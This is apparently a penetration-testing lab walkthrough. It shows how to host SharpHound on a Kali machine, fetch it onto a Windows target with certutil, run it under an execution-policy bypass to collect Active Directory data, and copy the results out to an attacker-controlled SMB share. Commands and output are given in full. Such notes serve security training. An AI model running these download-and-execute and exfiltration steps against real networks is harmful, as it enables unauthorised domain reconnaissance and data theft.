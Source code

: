 - Serve up **Sharphound.ps1**
```bash
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 ~/exercises/beyond/exploits

python3 -m http.server 80
```

- Download & run
```powershell
certutil -urlcache -f http://192.168.45.170/SharpHound.ps1 SharpHound.ps1
	****  Online  ****
	CertUtil: -URLCache command completed successfully.

powershell -ep bypass

. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
	2024-09-18T19:34:45.1914646-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
	2024-09-18T19:34:45.3008385-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
	...
	2024-09-18T19:35:32.5508549-07:00|INFORMATION|Saving cache with stats: 56 ID to type mappings.
	 57 name to SID mappings.
	 1 machine sid mappings.
	 2 sid to domain mappings.
	 0 global catalog mappings.
	2024-09-18T19:35:32.5664848-07:00|INFORMATION|SharpHound Enumeration Completed at 7:35 PM on 9/18/2024! Happy Graphing!
```

- Transfer the results file `20240918193532_BloodHound.zip`
```bash
# In Kali
impacket-smbserver test . -smb2support  -username uname -password passwd
```
```powershell
# In Windows
net use m: \\192.168.45.170\test /user:uname passwd
copy 20240918193532_BloodHound.zip m:\
```

- Start Bloodhound
```bash
sudo neo4j start
	Directories in use:
	home:         /usr/share/neo4j
	config:       /usr/share/neo4j/conf
	logs:         /etc/neo4j/logs
	plugins:      /usr/share/neo4j/plugins
	import:       /usr/share/neo4j/import
	data:         /etc/neo4j/data
	certificates: /usr/share/neo4j/certificates
	licenses:     /usr/share/neo4j/licenses
	run:          /var/lib/neo4j/run
	Starting Neo4j.
	Started neo4j (pid:31358). It is available at http://localhost:7474
	There may be a short delay until the server is ready.

bloodhound (4.3.1)
```
